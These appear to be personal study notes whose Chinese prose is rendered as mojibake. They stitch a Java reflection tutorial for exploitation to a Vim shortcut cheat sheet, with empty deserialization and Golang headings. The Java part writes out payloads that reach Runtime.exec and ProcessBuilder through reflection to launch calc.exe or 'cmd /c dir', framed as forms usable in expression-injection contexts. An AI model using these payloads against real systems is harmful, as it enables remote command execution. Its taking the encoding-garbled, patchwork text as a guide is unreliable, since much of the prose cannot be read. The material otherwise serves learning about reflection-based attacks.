>private static TrainDB instance = new TrainDB();
>public static TrainDB getInstance() {
>return instance;
>}
>private TrainDB() {
>// 建立è¿æ¥çš„代ç ...
>}
>}
>```
>
>这样，åªæœ‰ç±»åˆå§‹åŒ–的时候会执行一次æ„造函数，åé¢åªèƒ½é€šè¿‡`getInstance`è·å–这个对象，é¿å…建 立多个数æ®åº“è¿æ¥ã€‚ å›åˆ°æ­£é¢˜ï¼Œ`Runtime`类就是å•ä¾‹æ¨¡å¼ï¼Œæˆ‘们åªèƒ½é€šè¿‡`Runtime.getRuntime()`æ¥è·å–到`Runtime`对 象。我们将上述Payload进行修改å³å¯æ­£å¸¸æ‰§è¡Œå‘½ä»¤äº†ï¼š
>
>```
>Class clazz = Class.forName("java.lang.Runtime");
>clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz), "calc.exe");
>```
>
>
>
>```
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>((ProcessBuilder)clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
>```
>
>ProcessBuilder有两个æ„造函数：
>
>`public ProcessBuilder(List command)`
>`public ProcessBuilder(String... command)`
>
>我上é¢ç”¨åˆ°äº†ç¬¬ä¸€ä¸ªå½¢å¼çš„æ„造函数，所以我在`getConstructor`的时候传入的是`List.class`。 但是，我们看到，å‰é¢è¿™ä¸ªPayload用到了Java里的强制类å‹è½¬æ¢ï¼Œæœ‰æ—¶å€™æˆ‘们利用æ¼æ´çš„时候（在表 è¾¾å¼ä¸Šä¸‹æ–‡ä¸­ï¼‰æ˜¯æ²¡æœ‰è¿™ç§è¯­æ³•çš„。所以，我们ä»éœ€åˆ©ç”¨åå°„æ¥å®Œæˆè¿™ä¸€æ­¥ã€‚ 
>
>```Java
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe")));
>```
>
>通过`getMethod("start")`è·å–到`start`方法，然å`invoke`执行，`invoke`的第一个å‚数就是 ProcessBuilder Object了。
>
>那么，如æœæˆ‘们è¦ä½¿ç”¨`public ProcessBuilder(String... command)`这个æ„造函数，需è¦æ€æ ·ç”¨å 射执行呢？
>
>è¿™åˆæ¶‰åŠåˆ°Java里的å¯å˜é•¿å‚数（varargs）了。正如其他语言一样，Java也支æŒå¯å˜é•¿å‚数，就是当你 定义函数的时候ä¸ç¡®å®šå‚æ•°æ•°é‡çš„时候，å¯ä»¥ä½¿ç”¨ ... 这样的语法æ¥è¡¨ç¤ºâ€œè¿™ä¸ªå‡½æ•°çš„å‚数个数是å¯å˜ çš„â€ã€‚
>
>对äºå¯å˜é•¿å‚数，Javaå…¶å®åœ¨ç¼–译的时候会编译æˆä¸€ä¸ªæ•°ç»„，也就是说，如下这两ç§å†™æ³•åœ¨åº•å±‚是等价的（也就ä¸èƒ½é‡è½½ï¼‰ï¼š
>
>```
>public void hello(String[] names) {}
>public void hello(String...names) {}
>```
>
>也由此，如æœæˆ‘们有一个数组，想传给hello函数，åªéœ€ç›´æ¥ä¼ å³å¯ï¼š
>
>```
>String[] names = {"hello", "world"};
>hello(names);
>```
>
>那么对äºåå°„æ¥è¯´ï¼Œå¦‚æœè¦è·å–的目标函数里包å«å¯å˜é•¿å‚数，其å®æˆ‘们认为它是数组就行了。
>
> 所以，我们将字符串数组的类`String[].class`ä¼ ç»™`getConstructor`，è·å–`ProcessBuilder`的第二æ„造函数：
>
>```Java
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>clazz.getConstructor(String[].class)
>```
>
>在调用 newInstance 的时候，因为这个函数本身æ¥æ”¶çš„是一个å¯å˜é•¿å‚数，我们传给 ProcessBuilder 的也是一个å¯å˜é•¿å‚数，二者å åŠ ä¸ºä¸€ä¸ªäºŒç»´æ•°ç»„，所以整个Payload如下：
>
>```Java
>Class clazz = Class.forName("java.lang.ProcessBuilder");
>((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}})).start();
>```
>
>按åå°„æ¥å†™çš„è¯å°±æ˜¯ï¼š
>
>```java
>Class<?> clazz = Class.forName("java.lang.ProcessBuilder");     clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}}));
>```
>
>```Java
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance((Object[]) new String[]{"calc.exe"}));
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}}));
>// 以上两ç§å½¢å¼éƒ½èƒ½å¤Ÿè¿è¡Œï¼Œä½†æ˜¯ä¸‹é¢çš„æ ¼å¼å°±ä¸èƒ½è¿è¡Œ
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[]{"calc.exe"}));
>/*
>报错信æ¯ä¸º
>Exception in thread "main" java.lang.IllegalArgumentException: argument type mismatch
>at java.base/jdk.internal.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
>at java.base/jdk.internal.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
>at java.base/jdk.internal.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
>at java.base/java.lang.reflect.Constructor.newInstance(Constructor.java:490)
>at Main.main(Main.java:115)
>*/
>```
>
>åŸå› ï¼š
>
>这个问题是因为Javaçš„åå°„API在处ç†æ•°ç»„ç±»å‹å‚数时的特性。
>
>在Java中，数组也是对象，`String[]`å’Œ`String[][]`是两ç§ä¸åŒçš„ç±»å‹ï¼Œä¸èƒ½äº’相转æ¢ã€‚`String[]`是字符串数组，`String[][]`是字符串数组的数组（也å¯ä»¥ç†è§£ä¸ºäºŒç»´æ•°ç»„）。
>
>在代ç ä¸­ï¼Œ`clazz.getConstructor(String[].class)`是寻找一个æ¥å—字符串数组作为å‚æ•°çš„æ„造函数。因此，你需è¦ä¼ é€’一个字符串数组的å®ä¾‹ç»™`newInstance()`方法。
>
>在你的第一段代ç ä¸­ï¼Œä½ åˆ›å»ºäº†ä¸€ä¸ªå­—符串数组`new String[]{"calc.exe"}`，并将其转æ¢ä¸º`Object[]`，这是正确的，因此代ç å¯ä»¥è¿è¡Œã€‚
>
>在你的第二段代ç ä¸­ï¼Œä½ åˆ›å»ºäº†ä¸€ä¸ªå­—符串数组的数组`new String[][]{{"calc.exe"}}`，然åç›´æ¥ä¼ é€’ç»™`newInstance()`方法。这也是正确的，因为`newInstance()`方法æ¥å—的是一个`Object...`ç±»å‹çš„å‚数，这æ„味ç€å®ƒå¯ä»¥æ¥å—任何数é‡å’Œç±»å‹çš„å‚数。在这ç§æƒ…况下，你的字符串数组的数组被视为一个å•ç‹¬çš„å‚数，因此代ç å¯ä»¥è¿è¡Œã€‚
>
>然而，在你的第三段代ç ä¸­ï¼Œä½ åˆ›å»ºäº†ä¸€ä¸ªå­—符串数组`new String[]{"calc.exe"}`，然åç›´æ¥ä¼ é€’ç»™`newInstance()`方法。这是错误的，因为`newInstance()`方法期望一个字符串数组的å®ä¾‹ï¼Œè€Œä½ æ供的是一个字符串数组。这就åƒå°è¯•å°†ä¸€ä¸ª`String[]`ç±»å‹çš„对象传递给一个期望`String[][]`ç±»å‹çš„å‚数，显然是ä¸åŒ¹é…的，因此你得到了`IllegalArgumentException: argument type mismatch`的错误。
>
>更详细地解释一下。
>
>在Java中，方法和æ„造函数的å‚数都是é™æ€çš„，也就是说，它们在编译时就已ç»ç¡®å®šäº†ã€‚当你使用åå°„APIæ¥è°ƒç”¨ä¸€ä¸ªæ–¹æ³•æˆ–æ„造函数时，你需è¦æ供一个ä¸åŸå§‹å‚æ•°ç±»å‹å®Œå…¨åŒ¹é…çš„å‚数列表。
>
>当你调用`clazz.getConstructor(String[].class)`时，你正在寻找一个æ¥å—å•ä¸ªå‚æ•°çš„æ„造函数，这个å‚æ•°çš„ç±»å‹æ˜¯`String[]`。这æ„味ç€ï¼Œå½“你调用`newInstance()`方法时，你需è¦æ供一个`Object[]`，这个数组包å«ä¸€ä¸ª`String[]`对象。
>
>在你的第一段代ç ä¸­ï¼š
>
>```java
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance((Object[]) new String[]{"calc.exe"}));
>```
>
>你创建了一个字符串数组`new String[]{"calc.exe"}`，然å将其转æ¢ä¸º`Object[]`。这是正确的，因为`newInstance()`方法期望一个`Object[]`，这个数组包å«ä¸€ä¸ª`String[]`对象。因此，这段代ç å¯ä»¥æ­£ç¡®è¿è¡Œã€‚
>
>然而，在你的第三段代ç ä¸­ï¼š
>
>```java
>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[]{"calc.exe"}));
>```
>
>你创建了一个字符串数组`new String[]{"calc.exe"}`，然åç›´æ¥ä¼ é€’ç»™`newInstance()`方法。这是错误的，因为`newInstance()`方法期望一个`Object[]`，这个数组包å«ä¸€ä¸ª`String[]`对象，而你æ供的是一个`String[]`对象。这就åƒå°è¯•å°†ä¸€ä¸ª`String[]`ç±»å‹çš„对象传递给一个期望`Object[]`ç±»å‹çš„å‚数，显然是ä¸åŒ¹é…的，因此你得到了`IllegalArgumentException: argument type mismatch`的错误。
>
>为了解决这个问题，你需è¦å°†ä½ çš„字符串数组包装在一个`Object[]`里，就åƒä½ åœ¨ç¬¬ä¸€æ®µä»£ç ä¸­é‚£æ ·ã€‚这样，你就å¯ä»¥æ­£ç¡®åœ°è°ƒç”¨`newInstance()`方法，而ä¸ä¼šå¾—到任何错误。
>
>希望这个解释能够帮助你ç†è§£è¿™ä¸ªé—®é¢˜ã€‚如æœä½ è¿˜æœ‰ä»»ä½•ç–‘问，欢è¿ç»§ç»­æ问。
>
>((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}})).start();有佬知é“为什么newinstanceæ¥å—的是二维数组么
>这个问题解释：
>因为newInstanceæ¥å—一个å¯å˜é•¿å‚数也就是æ¥å—一个数组，你传进å»çš„二维数组字符串数组的数组被视为一个å•ç‹¬çš„å‚数，举例就是传进å»ä¸¤ä¸ªintå‚æ•°1,2çš„è¯åˆ°nerInstance函数里é¢ä¹Ÿä¼šè¢«ç¼–译æˆè¢«ä¸€ä¸ªObject数组包围的两个intç±»å‹å‚数，new Object[]{1, 2}，穿进å»çš„二维数组外é¢è¿™å±‚被当åšObject数组了，里é¢åŒ…å›´ç€å­—符串数组å‚æ•°


>###### `getDeclaredConstructor()` 方法的语法如下：
>
>`public Constructor<T> getDeclaredConstructor(Class<?>... parameterTypes) throws NoSuchMethodException`
>
>- `parameterTypes` 是一个å¯å˜å‚数列表，用äºæŒ‡å®šæ„造函数的å‚æ•°ç±»å‹ã€‚如æœæ„造函数有å‚数，需è¦æŒ‡å®šå‚æ•°ç±»å‹ï¼Œå¦‚æœæ²¡æœ‰å‚数，å¯ä»¥ä¸ä¼ å…¥è¯¥å‚数。
>- `T` 是æ„造函数所在类的类å‹ã€‚
>
>```Java
>Class<?> stuClass = Class.forName("student");
>//带有å‚æ•°çš„æ„造函数
>Constructor<?> stuConstr = stuClass.getDeclaredConstructor(String.class, int.class);
>Object stuIns = stuConstr.newInstance("å°ç‹", 1);
>//æ— å‚æ„造函数
>Constructor<?> noStuConstr = stuClass.getDeclaredConstructor();
>Object noStuIns = noStuConstr.newInstance();
>```
>



`getDeclaredConstructor()`å¯ä»¥è·å¾—æ„造方法，也å¯ä»¥è·å¾—我们常用的`private`方法，其中`Runtime`çš„æ„造方法是`private`，我们无法直æ¥è°ƒç”¨ï¼Œæˆ‘们需è¦ä½¿ç”¨åå°„å»ä¿®æ”¹æ–¹æ³•çš„访问æƒé™ï¼ˆä½¿ç”¨`setAccessible`，修改为 true），å†é€šè¿‡è·å–çš„æ„造器进行å®ä¾‹åŒ–对象

```Java
Class<?> runtimeClass = Class.forName("java.lang.Runtime");
Constructor constructor = runtimeClass.getDeclaredConstructor();
System.out.println(constructor);
constructor.setAccessible(true);
// Object类是所有类的父类，有兴趣的åŒå­¦å¯ä»¥åœ¨åŒäº²å§”派机制中å»ææ˜ç™½
Object runtimeInstance = constructor.newInstance();
//这里的è¯å°±ç­‰ä»·äº Runtime rt = new Runtime();
```

##### è·å–æˆå‘˜å˜é‡Field

è·å¾—该类自身声æ˜çš„所有å˜é‡ï¼Œä¸åŒ…括其父类的å˜é‡
`public Field getDeclaredFields() `

è·å¾—该类自所有的publicæˆå‘˜å˜é‡ï¼ŒåŒ…括其父类å˜é‡
`public Field getFields()`

```Java
 // è·å–类中的æˆå‘˜å˜é‡
 Field[] steFies = stuClass.getDeclaredFields();
 // è·å–类中制定的æˆå‘˜å˜é‡
 Field stuFie = stuClass.getDeclaredField("id");
 // 设置æˆå‘˜å˜é‡ä¸ºå¯è®¿é—®çŠ¶æ€
 stuFie.setAccessible(true);
 // è·å–æˆå‘˜å˜é‡çš„值
 Object stuId = stuFie.get(stuIns);
 System.out.println(stuId);
 // 修改æˆå‘˜å˜é‡çš„值
 stuFie.set(stuIns, 2);
 Object stuIdNew = stuFie.get(stuIns);
 System.out.println(stuIdNew);
```



上述的完整Payload:

```Java
import java.io.IOException;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class Main {
    public static void main(String[] args) throws ClassNotFoundException {
        System.out.println("1".getClass());
        System.out.println(people.class);
        System.out.println(Class.forName("java.lang.Runtime"));
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        Class<?> studentClass = Class.forName("student");
        Method[] studentMethodAll = studentClass.getDeclaredMethods();
        Method[] studentMethod = studentClass.getMethods();

        System.out.println(studentClass + " -> getDeclaredMethods");
        for (Method m : studentMethodAll) {
            System.out.println(m);
        }
        System.out.println("\n" + studentClass + " -> getMethods");
        for (Method m : studentMethod) {
            System.out.println(m);
        }
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        Constructor[] studentConstructorAll = studentClass.getDeclaredConstructors();
        Constructor[] studentConstructor = studentClass.getConstructors();
        System.out.println(studentClass + " -> getDeclaredConstructors");
        for (Constructor m : studentConstructorAll) {
            System.out.println(m);
        }
        System.out.println("\n" + studentClass + " -> getConstructors");
        for (Constructor m : studentConstructor) {
            System.out.println(m);
        }
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        Field[] studentFieldAll = studentClass.getDeclaredFields();
        Field[] studentField = studentClass.getFields();
        System.out.println(studentClass + " -> getDeclaredFields");
        for (Field m : studentFieldAll) {
            System.out.println(m);
        }
        System.out.println("\n" + studentClass + " -> getFields");
        for (Field m : studentField) {
            System.out.println(m);
        }
        System.out.println("\n\n---------------------------------------------------------------------------------\n\n");

        try{
            Class<?> runtimeClass = Class.forName("java.lang.Runtime");
            Constructor constructor = runtimeClass.getDeclaredConstructor();
            System.out.println(constructor);
            constructor.setAccessible(true);
            // Object类是所有类的父类，有兴趣的åŒå­¦å¯ä»¥åœ¨åŒäº²å§”派机制中å»ææ˜ç™½
            Object runtimeInstance = constructor.newInstance();
            //这里的è¯å°±ç­‰ä»·äº Runtime rt = new Runtime();
            // 使用 Runtime å®ä¾‹è°ƒç”¨æ–¹æ³•
            Method execMethod = runtimeClass.getDeclaredMethod("exec", String.class);
            Process result = (Process)execMethod.invoke(runtimeInstance, "calc.exe");

            String[] payload = {"cmd", "/c", "dir"};
            Method runtimeMethod = runtimeClass.getMethod("exec", String[].class);
            Process process = (Process) runtimeMethod.invoke(runtimeInstance, (Object) payload);

            InputStream inputStream = process.getInputStream();
            InputStreamReader inputStreamReader =  new InputStreamReader(inputStream, "GBK");
            BufferedReader inputBufferedReader = new BufferedReader(inputStreamReader);
            String line = null;
            while ((line = inputBufferedReader.readLine()) != null) {
                System.out.println(line);
            }
            inputBufferedReader.close();
            inputStreamReader.close();
            inputStream.close();

            // è·å–æˆå‘˜å˜é‡
            Class<?> stuClass = Class.forName("student");
            // 带有å‚æ•°çš„æ„造函数
            Constructor<?> stuConstr = stuClass.getDeclaredConstructor(String.class, int.class);
            Object stuIns = stuConstr.newInstance("å°ç‹", 1);
            // æ— å‚æ„造函数
            Constructor<?> noStuConstr = stuClass.getDeclaredConstructor();
            Object noStuIns = noStuConstr.newInstance();

            // è·å–类中的æˆå‘˜å˜é‡
            Field[] steFies = stuClass.getDeclaredFields();
            // è·å–类中制定的æˆå‘˜å˜é‡
            Field stuFie = stuClass.getDeclaredField("id");
            // 设置æˆå‘˜å˜é‡ä¸ºå¯è®¿é—®çŠ¶æ€
            stuFie.setAccessible(true);
            // è·å–æˆå‘˜å˜é‡çš„值
            Object stuId = stuFie.get(stuIns);
            System.out.println(stuId);
            // 修改æˆå‘˜å˜é‡çš„值
            stuFie.set(stuIns, 2);
            Object stuIdNew = stuFie.get(stuIns);
            System.out.println(stuIdNew);

        }catch (NoSuchMethodException | InvocationTargetException | InstantiationException | IllegalAccessException |
                IOException | NoSuchFieldException e) {
            throw new RuntimeException(e);
        }

    }
    public void execute(String className, String methodName) throws Exception {
        Class<?> clazz = Class.forName(className);
        clazz.getMethod(methodName).invoke(clazz.newInstance());
    }
}

class people {
    public String name = null;

    public people(){}

    public people(String name){
        this.name = name;
    }

    public void shout(){
        System.out.println(this.name+": å•Šå•Šå•Šå•Šå•Šå•Šå•Šå•Šå•Šå•Šå•Šï¼ï¼");
    }
}

class student extends people{

    private int id;
    public int num;

    public student(){
        System.out.println("æ— å‚æ„造");
    }

    private student(String name){
        System.out.println("ç§æœ‰æ„造：" + name);
    }
    public student(String name, int id) {
        super(name);
        this.id = id;
        System.out.println("正常æ„造");
    }

    private void copyHomework(){
        System.out.println("抄抄抄ï¼ï¼");
    }

    public void study(){
        System.out.println("学学学ï¼ï¼");
    }
}
```

### ååºåˆ—化


## VIM

### 如何ä»æ­£å¸¸æ¨¡å¼è¿›å…¥æ’入模å¼å‘¢ï¼Ÿ

请记ä½ä¸‹é¢å‡ ä¸ªå¸¸ç”¨å¯åŠ¨å½•å…¥æ–‡æœ¬çš„键盘字符 `i,I,a,A,o,O,s,S` 。

`i`是在光标所在的字符之å‰æ’入需è¦å½•å…¥çš„文本。

`I` 是在光标所在行的行首æ’入需è¦å½•å…¥çš„文本。

`a` 是在光标所在的字符之åæ’入需è¦å½•å…¥çš„文本。

`A` 是在光标所在行的行尾æ’入需è¦å½•å…¥çš„文本。

`o` 是光标所在行的下一行行首æ’入需è¦å½•å…¥çš„文本。

`O` 是光标所在行的上一行行首æ’入需è¦å½•å…¥çš„文本。

`s` 删除光标所在处的字符然åæ’入需è¦å½•å…¥çš„文本。

`S` 删除光标所在行，在当å‰è¡Œçš„行首开始æ’入需è¦å½•å…¥çš„文本。

还有一个å¯èƒ½ç»å¸¸ç”¨åˆ°çš„就是 `cw` ，删除ä»å…‰æ ‡å¤„开始到该å•è¯ç»“æŸçš„所有字符，然åæ’入需è¦å½•å…¥çš„文本（这个命令是两个字符的åˆä½“ cw ）。

### VIM 的命令模å¼

**文本的行å·è®¾ç½®æœ€å¥½ä¸è¦è®¾ç½®åœ¨é…置文件中（因为å¤åˆ¶æ–‡ä»¶çš„时候行å·çš„出ç°ä¼šå¾ˆéº»çƒ¦ï¼‰ï¼Œåœ¨å‘½ä»¤è¡Œå®ç°å°±å¥½**。

`:set nu`该命令会显示行å·ã€‚

`:set nonu`该命令会å–消行å·ã€‚

`:n`定ä½åˆ° n 行。

**VIM 进行关键字的查找。**

`/{目标字符串}`

如：/zempty ä¼šåœ¨æ–‡æœ¬ä¸­åŒ¹é… zempty 的地方高亮。

查找文本中匹é…的目标字符串，查到以å，输入键盘上的 n 会å»å¯»æ‰¾ä¸‹ä¸€ä¸ªåŒ¹é…，N 会å»å¯»æ‰¾ä¸Šä¸€ä¸ªåŒ¹é…。

**VIM 处ç†å¤§å°å†™çš„区分**

`:set ic`编辑器将ä¸ä¼šåŒºåˆ†å¤§å°å†™ï¼Œå¦‚æœä½ è¿›è¡Œè¯¥è®¾ç½®ä¹‹å，进行关键字查询如 /zempty 如æœæ–‡æœ¬ä¸­æœ‰ Zempty ,zEmpty,....,åªè¦æ˜¯å­—符相åŒä¸ä¼šåŒºåˆ†å¤§å°å†™éƒ½ä¼šè¿›è¡ŒåŒ¹é…。

`:set noic`该命令用æ¥åŒºåˆ†å¤§å°å†™çš„查询。

### VIM 的正常模å¼

**快速移动光标**

几个é‡è¦çš„å¿«æ·é”®

请记ä½è¿™å‡ ä¸ªå¿«æ·é”® `h,j,k,l` 这几个按键主è¦æ˜¯ç”¨æ¥å¿«é€Ÿç§»åŠ¨å…‰æ ‡çš„，`h` 是å‘左移动光标，`l` 是å‘å³ç§»åŠ¨å…‰æ ‡ï¼Œ`j` 是å‘下移动光标，`k` 是å‘上移动光标，`h , j , k ,l` 在主键盘区完全å¯ä»¥å–代键盘上的 `↑ ,↓ ,↠, →` 的功能。

**在当å‰è¡Œä¸Šç§»åŠ¨å…‰æ ‡**

`0` 移动到行头

`^` 移动到本行的第一个ä¸æ˜¯ blank 字符

`$` 移动到行尾

`g_` 移动到本行最å一个ä¸æ˜¯ blank 字符的ä½ç½®

`w` 光标移动到下一个å•è¯çš„开头

`e` 光标移动到下一个å•è¯çš„结尾

`fa` 移动到本行下一个为 a 的字符处，fb 移动到下一个为 b 的字符处

`nfa` 移动到本行光标处开始的第 n 个 字符为 a 的地方（n 是 1，2，3，4 ... 数字）

`Fa` åŒ `fa` 一样，光标移动方å‘åŒ `fa` 相å

`nFa` åŒ `nfa` 类似，光标移动方å‘åŒ `nfa`相å

`ta` 移动光标至 a 字符的å‰ä¸€ä¸ªå­—符

`nta` 移动到第二个 a 字符的å‰ä¸€ä¸ªå­—符处

`Ta` åŒ `ta` 移动光标方å‘相å

`nTa` åŒ `nta` 移动光标方å‘相å

`;` å’Œ`,` 当使用 f, F, t ,T, 关键字指定字符跳转的时候，使用 `ï¼›`å¯ä»¥å¿«é€Ÿè·³è½¬åˆ°ä¸‹ä¸€ä¸ªæŒ‡å®šçš„字符，`,` 是跳到å‰ä¸€ä¸ªæŒ‡å®šçš„字符

**跨行移动光标**

`nG` 光标定ä½åˆ°ç¬¬ n 行的行首

`gg` 光标定ä½åˆ°ç¬¬ä¸€è¡Œçš„行首

`G` 光标定ä½åˆ°æœ€å一行的行首

`H` 光标定ä½åˆ°å½“å‰å±å¹•çš„第一行行首

`M` 光标移动到当å‰å±å¹•çš„中间

`L` 光标移动到当å‰å±å¹•çš„尾部

`zt` 把当å‰è¡Œç§»åŠ¨åˆ°å½“å‰å±å¹•çš„最上方，也就是第一行

`zz` 把当å‰è¡Œç§»åŠ¨åˆ°å½“å‰å±å¹•çš„中间

`zb` 把当å‰è¡Œç§»åŠ¨åˆ°å½“å‰å±å¹•çš„尾部

`%` 匹é…括å·ç§»åŠ¨ï¼ŒåŒ…括 ( , { , \[ 需è¦æŠŠå…‰æ ‡å…ˆç§»åŠ¨åˆ°æ‹¬å·ä¸Š

`*` å’Œ `#` 匹é…光标当å‰æ‰€åœ¨çš„å•è¯ï¼Œç§»åŠ¨å…‰æ ‡åˆ°ä¸‹ä¸€ä¸ªï¼ˆæˆ–者上一个）匹é…çš„å•è¯ï¼ˆ `*` 是下一个，`#` 是上一个）

## Golang
